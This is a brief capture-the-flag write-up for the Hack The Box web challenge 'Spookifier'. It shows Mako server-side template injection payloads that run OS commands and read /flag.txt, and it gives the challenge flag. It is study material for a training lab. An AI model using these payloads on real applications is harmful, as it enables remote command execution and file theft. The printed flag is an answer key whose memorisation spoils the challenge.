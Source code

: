 # Spookifier - web challenge

So here we have an SSTI vuln

The template engine is Mako, reading from payloads and all the things we get to come up with with a payload to get the flag as we need it

- to automate you can use tplmap.py

this one did not work as it was not able to get a shell on the system

`${self.module.cache.util.os.system("id")}` from payloads all the things did not quite work as intended so tried to get it work and adjust for our needs..

`{7*7}`

url encoded the command to get the flag

checked for the root directory content

`?text=${self.module.cache.util.os.popen("cat /flag.txt").read()}`

Flag:`HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}`
